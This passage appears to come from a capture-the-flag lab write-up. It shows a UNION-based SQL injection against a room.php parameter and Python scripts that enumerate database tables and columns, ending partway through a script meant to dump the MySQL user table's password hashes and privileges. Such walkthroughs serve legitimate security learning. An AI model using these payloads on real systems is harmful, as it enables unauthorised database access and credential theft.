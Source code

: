 ```sql
-- here column 4 is replaced with a query to databse tables
-- CONCAT is used to prepend a unique string 'bubba@' to the output
-- since only one result can be returned, the LIMIT/OFFSET commands are used
-- in OFFSET, the X value starts at 0 and is incrimented for each request
0 UNION ALL 
  SELECT 
    1,2,3,
    CONCAT('bubba@',(SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET X)),
    5,6,7
```

This can be done in an automated fashion with Python by using `CONCAT` in SQL to append a unique tag to output and then searching for it on the HTML returned:

```python
import re
import requests

REGEX = r'<p>bubba-(.*)</p>'
URL = 'http://10.10.10.143/room.php'
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET {0})),5,6,7"

i = 0
s = requests.session()
while True:
  r = s.get(URL, params={'cod': SQL.format(i)})
  val = re.findall(REGEX, r.text)
  if not val:
    break
  print(val[0])
  i = i + 1
```

This script returns a long list of tables. From the output, the `user` table is interesting since it holds all the mysql password hashes and permissions. Modify the previous script to use the following SQL query to enumerate the column names of the table `user`:

- https://mariadb.com/kb/en/mysqluser-table/
- https://book.hacktricks.xyz/pentesting/pentesting-mysql

```python
# here, column_name is selected from 'users' until there are no more columns
SQL = "0 UNION ALL SELECT 1,2,3,CONCAT('bubba-',(SELECT column_name FROM information_schema.columns WHERE table_name='user' LIMIT 1 OFFSET {0})),5,6,7"
```

The script now outputs the same column list from https://mariadb.com/kb/en/mysqluser-table/. Taking this list of column names, it is possible to enuerate this table with the following Python for specific important columns. The Python assumes that the `user` table is under the default database name of `mysql`:

```python
import re
import requests

COLUMNS = [
  'Host',
  'User',
  'Password',
  'Select_priv',
  'Insert_priv',
  'Update_priv',
  'Delete_priv',
  'Create_priv',
  'Drop_priv',
  'Reload_priv',
```